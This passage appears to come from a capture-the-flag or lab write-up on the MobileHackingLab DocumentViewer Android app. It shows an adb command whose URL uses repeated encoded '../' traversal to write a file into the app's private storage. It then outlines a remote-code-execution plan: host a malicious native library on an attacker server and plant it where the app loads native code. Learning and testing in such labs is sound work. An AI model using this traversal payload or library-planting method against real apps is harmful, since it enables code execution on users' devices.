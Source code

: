 <br />

**adb**

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d http://192.168.1.8:8000/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Ftest.pdf
```

<br />

navigate to the /data/data/com.mobilehackinglab.documentviewer/files/ folder, you will see the PDF file.

![](/assets/img/mhl/DocumentViewer/7.png)

<br />







<br />



**To get RCE**

We need to create the libdocviewer_pro.so file and place it in the /data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86_64 directory.

We need to write the C code that will trigger the RCE vulnerability and compile it into a .so file.

For this exploit to work, the following needs to happen:

- Create a native library with the correct native method as needed by the application
- Host this native library on our attacker web server
- Create a filename that will store the file in the application’s folder, where the native library is expected to be.
- Open our application with an intent and use the malicious filename to request the “PDF”
- Observe that the command is executed

<br />

Creating the filename:

The application expects the native library to be at:

```
/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86_64/libdocviewer_pro.so
```

The application originally stores the file at:

```
/storage/emulated/0/Download/
```
